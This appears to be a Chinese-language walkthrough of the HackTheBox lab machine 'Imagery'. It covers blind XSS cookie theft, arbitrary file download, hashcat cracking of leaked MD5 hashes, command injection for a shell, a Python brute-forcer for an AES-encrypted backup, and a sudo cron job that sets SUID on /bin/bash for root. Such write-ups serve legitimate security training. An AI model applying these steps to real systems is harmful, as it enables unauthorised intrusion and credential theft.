# HTB-Imagery-WP

## 信息收集

### 端口扫描

```bash
nmap -sS -A -T4 -p- 10.10.11.88
```



结果:
```
22/tcp   open  ssh         OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http        Werkzeug httpd 3.1.3 (Python 3.12.7)
9000/tcp open  cslistener
```

### 目录扫描

```bash
dirsearch -u 'http://10.10.11.88:8000' -x 404
```



### 页面分析

注册账户登入后,存在文件上传功能



尝试上传php文件失败，转至其他功能点
发现存在提交bug页面，管理员可能会查看提交的bug信息



我们可以尝试xss盲注来获得管理员的cookie

```htm


```

我们在kali上用python搭建web服务器用于接受管理员的cookie

```bash
python3 -m http.server 80
```

拿到管理员的cookie



在bp上使用正则替换所有数据包的cookie为管理员的cookie



成功进入管理员后台



我们需要将提交的bug删除不然会一直跳转

在下载log处发现存在任意文件下载



上网查找资料发现,服务器的配置文件为config.py,我们可以路径喷洒下载config.py文件



发现存在db.json文件



使用hashcat进行密码爆破,推测为md5

```bash
hashcat -m 0  5d9c1d507a3f76af1e5c97a3ad1eaa31 /usr/share/wordlists/rockyou.txt  #admin

hashcat -m 0  2c65c8d7bfbca32a3ed42596192384f6 /usr/share/wordlists/rockyou.txt  #test
```



爆破出testuser的密码为:iambatman

查看/etc/passwd文件,发现存在web和mark用户



尝试使用ssh登录,发现只能使用密钥对登入,所以只能尝试webshell或者反弹shell的方式

### 代码审计

参考
[CSDN瘾大侠](https://blog.csdn.net/weixin_44368093/article/details/152280066?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522ef07e4ad3971332e2db7151140689c23%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=ef07e4ad3971332e2db7151140689c23&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-152280066-null-null.142^v102^pc_search_result_base4&utm_term=imagery%20htb&spm=1018.2226.3001.4187)

app.py通常是flask框架的启动函数,我们可以查看app.py文件



红框中为用户自定义的py文件,我们逐一分析,在api_edit.py中发现关键函数



subprocess是python的系统命令执行语句，同时command是通过字符串拼接所以可能导致RCE问题,其中x,y,weight,height为可控参数



路径为/apply_visual_transform,并且要求用户为testuser,才能使用改功能点,正好前面爆破出的用户为testuser



成功拿到shell

## 提取

### suid权限

```bash
find / -perm -4000 -type f 2>/dev/null
```



存在可疑文件为/tmp/bash 

####  /tmp/bash

/tmp/bash 为一个可执行文件,我们可以查看其权限,发现为root权限,但是尝试无果

### 计划任务

```bash
crontab -l
```



发现web家目录下存在备份文件和admin.py

####  /home/web/admin.py

似乎是用来执行自动查看bug信息的脚本

#### 备份文件

将备份文件下载在kali上后使用file分析



```python
import pyAesCrypt

GREEN = "\033[92m"   # 亮绿色
RESET = "\033[0m"    # 恢复默认颜色


def decrypt(password,AESfile,output):
    try:
        res = pyAesCrypt.decryptFile(AESfile, output, str(password))
        if not res:
            return True
    except:
        return False
            
with open('/home/kali/Desktop/Info/zhuzhuzxia/Passwords/rockyou.txt', 'rb') as f:  # change it!
    passwords = [line.decode('latin1').strip() for line in f]
    for password in passwords:
        res = decrypt(password,"backup.zip.aes","backup.zip") # change it!
        if res:
            print(f"{GREEN}[+]{password}{RESET}")
            break
        else:
            print(f"[-]{password}")
```

不知道为什么我这环境出问题,无法执行接下来的解密步骤



01c3d2e5bdaf6134cec0a367cf53e535:supersmash

### mark用户

使用supermash成功切换为mark用户



#### sudo权限

##### charcol
发现charcol用户有sudo权限且不需要密码
进一步分析发现该程序存在增改计划任务功能,可以通过计划任务提权



```bash
sudo charcol shell
charcol> auto add --schedule "* * * * *" --command "chmod u+s /bin/bash" --name "zhaha"
<* *" --command "chmod u+s /bin/bash" --name "zhaha"                                                                               
[2025-10-04 14:21:19] [INFO] System password verification required for this operation.                                             
Enter system password for user 'mark' to confirm: 
supersmash

[2025-10-04 14:21:35] [INFO] System password verified successfully.
[2025-10-04 14:21:35] [INFO] Auto job 'zhaha' (ID: e7917460-a524-4512-9573-cda20014fd58) added successfully. The job will run according to schedule.
[2025-10-04 14:21:35] [INFO] Cron line added: * * * * * CHARCOL_NON_INTERACTIVE=true chmod u+s /bin/bash

```

### root




